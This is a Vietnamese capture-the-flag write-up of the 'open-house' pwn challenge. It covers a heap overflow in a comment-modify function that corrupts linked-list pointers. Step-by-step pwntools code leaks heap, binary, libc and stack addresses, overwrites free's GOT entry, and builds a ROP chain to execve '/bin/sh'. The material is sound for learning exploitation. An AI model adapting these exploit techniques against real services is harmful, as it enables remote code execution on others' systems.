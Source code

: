 ##### I. Tìm bug

- ![image-20230530005803415](./assets/image-20230530005803415.png)

- Kiểm tra các chế độ bảo vệ cơ bản ta thấy được `canary ` và `relro` `disable`. 

- ![image-20230530005939348](./assets/image-20230530005939348-1685385500177-2.png)

- Chương trình thực hiện các tính năng như `comment`, `view`, `modify`, `delete` và `quit`.

- `comment` giúp ta tạo một `comment` mới và max 11 `comment` , khi khởi tạo ta đã có sẵn 10 `comment`.

- `modified` ta có thể chỉnh sửa `comment` với option này. Còn các option còn lại không có gì quá lạ với kiểu bài như này.

- Struct của một `comment` được cấu tạo như sau:

- ```c
  #define INPUT_SIZE 512
  #define ALARM_SECONDS 180
  
  struct __attribute__((packed)) item  {
      char buf[INPUT_SIZE];
      struct item* next;
      struct item* prev;
  };
  ```

- Các `comment` được liên kết với nhau theo kiểu liên kết đôi.

- Tới với tính năng đầu tiên `comment`, mình sẽ dùng [source](https://github.com/Nautilus-Institute/quals-2023/blob/main/open-house/src/open-house.c) cho dễ hình dung vì ida rất khó nhìn:

- ```c
  void new(char *msg)
  {
      struct item *ptr;
      unsigned int len;
  
      // Seek through our linked list to find the tail
      for (ptr = &head; ptr->next; ptr = ptr->next);
  
      // Create a new entry and link it to the list
      ptr->next = malloc(sizeof(struct item));
      ptr->next->prev = ptr;
      ptr = ptr->next;
  
      ptr->next = 0;  // new entry is now the tail
  
      totalReviews++; 
  
      // Copy message into the buffer
      len = (strlen(msg) > 512) ? 512 : strlen(msg);
      strncpy(ptr->buf, msg, len);
      // Intentionally missing a NULL-terminator here to create a pointer leak
  
      // fprintf(stderr, "NewNode = %p %p\n", &ptr->next, ptr);
  
      return;
  }
  
  void create()
  {
      char input[INPUT_SIZE*2];
  
      // Receive review from user
      fputs("Absolutely, we'd love to have your review!\n", stdout);
      if (fgets(input, INPUT_SIZE*2, stdin) == NULL) {
          return;
      }
  
      // If we received a review, place it at the end of the list
      if (strlen(input) > 0) {
          new(input);
          fputs("Thanks!\n", stdout);
      } else {
          fputs("I know. I'm speechless, too! It really is a great property.\n", stdout);
      }
  
      return;
  }
  ```

- Với tính năng này nó sẽ tạo một `comment`với max size là 512, và chúng hoàn toàn được tạo trên heap.

- Bug nằm ở `modify`:

- ```c
  void modify()
  {
      struct item *ptr = &head;
      char buf[INPUT_SIZE+16];
      unsigned long selection;
  
      // Ask user for their selection
      fputs("Which of these reviews should we replace?\n", stdout);
      if (fgets(buf, INPUT_SIZE+16, stdin) == NULL) {
          return;
      }
  
      // Advance ptr to their selection
      selection = strtoul(buf, NULL, 10);
      for (unsigned int i = 0; i != selection; i++) {
          ptr = (ptr->next) ? ptr->next : ptr;
          if(ptr->next == NULL)
          {
              break;
          }
      }
  
      //  fprintf(stderr, "MOD PTR = %p Head = %p %d\n", ptr, &head, &head == ptr);
      // Replace their selection with their input
      fprintf(stdout, "Replacing this one: %s\n", ptr->buf);
      fputs("What do you think we should we replace it with?\n", stdout);
      if (fgets(ptr->buf, INPUT_SIZE+16, stdin) == NULL) {
          return;
      }
  
     //  fprintf(stderr, "MOD FIN head.next = %p head.prev = %p tot = %d rev = %d\n", head.next, head.prev, totalReviews, reviewed);
  
      return;
  }
  ```

- Khi nó cho ta `rewrite` với `size+0x10` gây ra overflow điều này khiến ta có thể thay đổi được `next` và `prev` của một `comment`.

##### II. Ý tưởng

- Với việc mọi thứ được cấp phát trên `heap` và chỉ duy nhất `root` của `comment` thì mới nằm trên `binary`, do đó thứ ta cần là địa chỉ của `heap`.

- Do tất cả đều nằm trên heap nên `next` và `prev` cũng vậy, ta sẽ nhập một comment `0x200*b'a'` để nó chạm tới `next` và in cùng ra. Tuy nhiên điều này sẽ không thể được vì hàm input lại là `fgets` nó sẽ tự động thêm `null byte` vào cuối chuỗi. Khi ra soát lại thì có thể thấy rằng nếu `next` của một `comment` là `null` thì tức là `comment` cuối cùng nên khi tạo một `comment` mới thì `next` này sẽ trỏ vào `comment` mới. Vậy nên ta chỉ cần sửa comment cuối cùng thành `0x200*b'a' + p32(0) # do fgets có cả byte '\n'` xong đó tạo một `comment` mới thì `next` sẽ được in ra cùng với `comment`.

- Sau khi có `heap` ta sẽ leak `binary` thông qua `prev` của `comment` kế `root`. Từ binary thì có thể `leak` libc, do không biết là có `root` nên mình đã sử dụng một cách phức tạp hơn là `overlap` chunk để leak `libc` tại `unsorted bin` rồi leak `stack` và leak `binary`. Đều này có vẻ bất khả thi nhưng mình đã `fuzz libc` và biết được rằng `libc` của server được custom. Tuy nhiên một số `libc` với `offset` của nó lại có `environ` đúng nên mình đã `leak` được `stack`.

- Do không có `libc` nên không thể thực hiện kỹ thuật `ret2libc` được và các `gadget` có sẵn trên `binary` không đủ cho ta thực hiện lấy shell. Nhưng tác giả đã cố tình cho ta một `libc_write`

- ```c
  void alarm_handler(int signal){
      (void)signal;
  
      char *bye = "I'm sorry, the open house is closing now. Bye!\n";
      write(1, bye, strlen(bye));
      exit(1);
  }
  ```

- Hàm này được cấu tạo từ `syscall` cơ bản, và ta có thể lợi dụng nó để setup `sys_execve`.

- ![image-20230530013740494](./assets/image-20230530013740494.png)

- Đây là hàm được call tại `gs:0x10`

- ![image-20230530013920054](./assets/image-20230530013920054.png)

- Để cho chắc ăn mình ta in `asm` của `libc_write` trên `server` và decode lại cho chắc.

- Dựa vào đoạn trên ta có sẵn `mov edx, [esp+0x28]`,  `int 0x80` cộng thêm `pop ebx ; ret` từ `binary` với `ecx = 0` sẵn thì ta chỉ cần tìm cách setup `eax` nữa là xong.

- Và mình tìm được đoạn mã sau:

- ![image-20230530014454165](./assets/image-20230530014454165.png)

- Nó giúp ta setup eax và call `free`, ta có thể thay đổi got free thành `libc_write+44` để setup `edx` và gọi `int 0x80`.

##### III. Khai thác

- Leak heap:

- ```py 
  c(b'chino') # open option modify, delete
  md(b'd', 11)
  md(b'm', 10, b'a'*0x1fb + b'abcd')
  c(b'chino')
  v()
  r.recvuntil(b'abcd\n')
  heap = u32(r.recv(4))
  info('heap: ' + hex(heap))
  ```

- Leak binary:

- ```py
  payload = b'a'*0x200 + p32(heap - 0x22ac)+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  bin = u32(r.recv(4))
  exe.address = bin - 0x3164
  info('bin: ' + hex(exe.address))
  ```

- Leak libc:

- ```py
  payload = b'a'*0x200 + p32(exe.got['free'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  libc.address = u32(r.recv(4)) - libc.sym['free']
  info('libc: ' + hex(libc.address))
  ```

- Leak stack:

- ```py
  payload = b'a'*0x200 + p32(libc.sym['environ'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  stack = u32(r.recv(4))
  info('stack: ' + hex(stack))
  ```

- Overwrite `free` got và rewrite `fgets`:

- ```python
  payload = b'a'*0x200 + p32(exe.got['free'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  md(b'm', 5, p32(libc.sym['write']+0x2c) + p32(libc.sym['fgets']))
  ```

- Overwrite saverip `modify` :

- ```python
  payload = b'a'*0x200 + p32(stack-0x100)+ p32(heap-0x2090)
  md(b'm', 4, payload)
  payload = p32(exe.sym['pop_ebx']) + p32(stack-0xc8) + p32(exe.sym['call']) + b'\x00'*0x28 + p32(0xb) + b'/bin/sh\x00' + b'\x00'*0x8 + p32(libc.sym['write']+0x2c)
  md(b'm', 5, payload)
  ```

- Get shell:

- ![image-20230530020237312](./assets/image-20230530020237312.png)
